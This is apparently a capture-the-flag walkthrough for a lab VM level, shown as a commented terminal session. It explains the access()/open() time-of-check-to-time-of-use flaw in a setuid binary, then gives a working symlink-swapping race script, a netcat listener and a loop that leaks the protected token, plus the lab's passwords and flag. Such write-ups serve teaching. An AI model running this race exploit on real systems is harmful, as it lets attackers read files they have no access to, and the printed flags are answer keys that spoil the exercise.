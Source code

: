 # Login as level10.
┌──$ [~/42/2021/snow-crash]
└─>  ssh 192.168.1.64 -p 4242 -l level10
level10@192.168.1.64's password: s5cAJpM8ev6XHw998pRWG728z
# An SUID executable and token file are located in home directory.
level10@SnowCrash:~$ ls -l
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
level10@SnowCrash:~$ ./level10
./level10 file host
	sends file to host if you have access to it
level10@SnowCrash:~$ ./level10 token localhost
You don't have access to token
level10@SnowCrash:~$ cat token
cat: token: Permission denied
# Use ltrace to intercept dynamic library calls and system calls executed by the program.
level10@SnowCrash:~$ ltrace ./level10 token localhost
__libc_start_main(0x80486d4, 3, 0xbffff7d4, 0x8048970, 0x80489e0 <unfinished ...>
access("token", 4)                                                                                                                                 = -1
printf("You don't have access to %s\n", "token"You don't have access to token
)                                                                                                   = 31
+++ exited (status 31) +++
# Man page of access warns about security hole.
#   NOTES
#     Warning: Using access() to check if a user is authorized to, for example, open a file before actually doing so using open(2) creates a security hole,
#	  because the user might exploit the short time interval between checking and opening the file to manipulate it.
# A question was asked on SO : https://stackoverflow.com/questions/7925177/access-security-hole
# An answer talk about TOCTOU race (Time of Check to Time of Update).
#   That is a TOCTOU race (Time of Check to Time of Update). A malicious user could substitute a file
#   he has access to for a symlink to something he doesn't have access to between the access() and the open() calls.
# Implementation of TOCTOU
level10@SnowCrash:~$ vi /tmp/toctou.sh
#!/bin/bash

TOKEN=/home/user/level10/token
SYMLINK=/tmp/symlink
EMPTYFILE=/tmp/empty
TMPFILE=$(/bin/mktemp)

/usr/bin/touch $EMPTYFILE
/bin/ln -s $TOKEN $SYMLINK

while true
do
	/bin/mv $SYMLINK $TMPFILE
	/bin/mv $EMPTYFILE $SYMLINK
	/bin/mv $TMPFILE $EMPTYFILE
done
level10@SnowCrash:~$ chmod +x /tmp/toctou.sh
level10@SnowCrash:~$ /tmp/toctou.sh &
level10@SnowCrash:~$ nc -lk 6969 | grep -v ".*( )*." &
# Run binary in a while loop and white for TOCTOU to get password from token file.
# Don't panic! It may take a while.
level10@SnowCrash:~$ while true; do ./level10 /tmp/symlink 127.0.0.1; done &>/dev/null
woupa2yuojeeaaed06riuj63c
# Login as flag10 and get the flag.
level10@SnowCrash:~$ su flag10
Password: woupa2yuojeeaaed06riuj63c
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
